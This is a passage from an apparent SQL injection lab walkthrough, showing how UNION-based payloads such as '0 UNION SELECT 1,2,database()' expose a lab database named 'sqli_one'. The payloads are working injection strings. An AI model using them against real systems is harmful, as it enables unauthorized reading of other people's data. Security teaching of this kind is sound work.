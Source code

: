 Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>
